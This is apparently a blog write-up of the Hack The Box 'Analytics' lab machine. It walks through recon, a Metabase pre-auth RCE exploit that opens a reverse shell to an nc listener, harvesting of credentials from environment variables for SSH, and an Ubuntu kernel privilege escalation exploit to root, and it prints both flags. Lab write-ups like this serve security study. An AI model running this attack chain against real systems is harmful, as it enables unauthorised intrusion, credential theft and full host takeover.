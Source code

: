 ```yaml
---
layout: post
title: Analytics HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy,linux,cve,rce,kernel exploit]
image:
  path: /images/htb/easy/analytics/icon.png
---
```


Another machine today! Not too hard I think I'm going to step up the difficulty!

**Machine created by:** [7u9y](https://app.hackthebox.com/users/260996) & [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.233 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-03 02:53 AEDT
Nmap scan report for 10.10.11.233
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Lets edit our `/etc/hosts` and add a new entry (If we set it to `analytics.htb` it redirects us to `analytical.htb` so we will use that).

```
10.10.11.233 analytical.htb
```

Visiting [analytical.htb](http://analytical.htb:80) we see a common company landing page.

![Home Page](/images/htb/easy/analytics/home.png)

After clicking `Login` were shown a new subdomain: `data.analytical.htb`.

Lets add that to the `/etc/hosts` file.

```
10.10.11.233 data.analytical.htb,analytical.htb
```

Visiting `data.analytical.htb` we see a Metabase login page.

![Metabase Login](/images/htb/easy/analytics/metabase.png)

Looking for Metabase CVE's online I come across a [Pre-Auth RCE PoC](https://github.com/securezeron/CVE-2023-38646) which has a reverse shell script.

## Exploitation & Initial Access

Let's setup a listener locally with `nc`.

```
$ nc -lvnp 4444
```

And lets run the exploit:

```
$ python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb --lport 4444 --lhost 10.10.***.***
[DEBUG] Original rhost: http://data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.***.***, lport: 4444
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
...
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```

and on our listener we see a new shell!

```
Connection from 10.10.11.233:34544
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
218a8fec6c49:/$ whoami
whoami
metabase
```

## User Flag

Now looking through the `/app` directory I read `run_metabase.sh` and see its reading creds from environment variables.

```sh
# usage: file_env VAR [DEFAULT]
#    ie: file_env 'XYZ_DB_PASSWORD' 'example'
# (will allow for "$XYZ_DB_PASSWORD_FILE" to fill in the value of
#  "$XYZ_DB_PASSWORD" from a file, especially for Docker's secrets feature)
# taken from https://github.com/docker-library/postgres/blob/master/docker-entrypoint.sh
# This is the specific function that takes the env var which has a "_FILE" at the end and transforms that into a normal env var.
file_env() {
    local var="$1"
    local fileVar="${var}_FILE"
    local def="${2:-}"
    if [ "${!var:-}" ] && [ "${!fileVar:-}" ]; then
        echo >&2 "error: both $var and $fileVar are set (but are exclusive)"
        exit 1
    fi
    local val="$def"
    if [ "${!var:-}" ]; then
        val="${!var}"
    elif [ "${!fileVar:-}" ]; then
        val="$(< "${!fileVar}")"
    fi
    export "$var"="$val"
    unset "$fileVar"
}
```

Running `printenv` gives us the following output:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=218a8fec6c49
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/app
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
OLDPWD=/
```

In there are the following credentials `metalytics:An4lytics_ds20223#`.

Let's use this on SSH:

```
$ ssh metalytics@analytical.htb
metalytics@analytical.htb's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
...
metalytics@analytics:~$ cat user.txt
43b96c62ca27b47911880bebe17962df
```

And there's the user flag! <mark>43b96c62ca27b47911880bebe17962df</mark>

## Root Flag

I firstly check `sudo -l` for any living-off-the-land opportunities.

```
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

Hmm...

Any SUID binaries? (`find / -type f -perm -04000 -ls 2>/dev/null`)

```
      842     40 -rwsr-xr-x   1 root     root        40496 Nov 24  2022 /usr/bin/newgrp
      697     72 -rwsr-xr-x   1 root     root        72072 Nov 24  2022 /usr/bin/gpasswd
     1111     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
     1187     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
      573     44 -rwsr-xr-x   1 root     root        44808 Nov 24  2022 /usr/bin/chsh
      681     36 -rwsr-xr-x   1 root     root        35200 Mar 23  2022 /usr/bin/fusermount3
     2484    228 -rwsr-xr-x   1 root     root       232416 Apr  3  2023 /usr/bin/sudo
      876     60 -rwsr-xr-x   1 root     root        59976 Nov 24  2022 /usr/bin/passwd
      830     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
      567     72 -rwsr-xr-x   1 root     root        72712 Nov 24  2022 /usr/bin/chfn
     1409     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    13994    332 -rwsr-xr-x   1 root     root         338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
    13665     20 -rwsr-xr-x   1 root     root          18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

None on GTFOBins...

Look at other port activity (`netstat -nltp`), nothing of interest exists their either. 

Nothing inside `printenv`, what now?

I looked up for privilege escalation vulnerabilities in the Ubuntu version supplied once we joined SSH (Ubuntu 22.04.3) and found [CVE-2023-2640 + CVE-2023-32629 PoC](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which gives root!

I cloned the PoC locally and hosted a local python server (`python3 -m http.server`) and downloaded the exploit on the server.

```
metalytics@analytics:/tmp$ chmod +x exploit.sh
metalytics@analytics:/tmp$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# cat /root/root.txt
9db68c8ac70474f468afe8ca2ac44373
```

There's the root flag! <mark>9db68c8ac70474f468afe8ca2ac44373</mark>

Success!

![Success](/images/htb/easy/analytics/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).